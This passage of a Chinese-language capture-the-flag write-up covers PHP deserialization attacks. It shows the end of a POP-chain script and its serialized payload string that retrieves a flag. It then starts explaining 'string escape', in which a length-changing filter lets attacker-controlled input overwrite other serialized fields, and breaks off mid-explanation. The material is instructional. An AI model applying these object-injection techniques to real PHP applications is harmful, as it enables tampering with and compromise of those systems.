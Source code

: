 ```php
        public function __construct()
        {
            $this->str1 = new GetFlag();
        }
}
class GetFlag {}

$a = new start_gg();
echo serialize($a);
//O:8:"start_gg":1:{s:4:"mod1";O:4:"Call":1:{s:4:"mod1";O:5:"funct":1:{s:4:"mod1";O:4:"func":1:{s:4:"mod1";O:7:"string1":1:{s:4:"str1";O:7:"GetFlag":0:{}}}}}}
?>
```

payload serialize($a),得到flag。

## 拓展

### 字符串逃逸

> PHP 在反序列化时，底层代码是以 `;` 作为字段的分隔，以 `}` 作为结尾(字符串除外)，并且是根据长度判断内容。

![](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/04/2021-04-16-526902876.png)

可以看到`}`以外的部分并没有反序列化。

#### 函数使字符变多

```php
<?php
function filter($string)
{
    $filter = '/t/i';
    return preg_replace($filter,'ww',$string);
}
$username ='theoyu';
$age=20;
$user=array($username,$age);
$s=serialize($user);
var_dump($s);
var_dump(unserialize($s));
var_dump(filter($s));
var_dump(unserialize(filter($s)));
?>
```
在这个例子中，`filter`会把字符串中的t替换为两个w
我们看看输出：
![](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/04/2021-04-16-2412547197.png)
可以看到filter后，我们的username变成了`wwheoyu`，为7个字符，但filter是在序列化后，所以其6个字节的长度并没有更改，也就导致了反序列失败。

这里我们假设一点，username是一个我们可以控制输入的变量，`$age=20`是一个不可更改的量，那我们就可以利用上面的filter函数来篡改age。
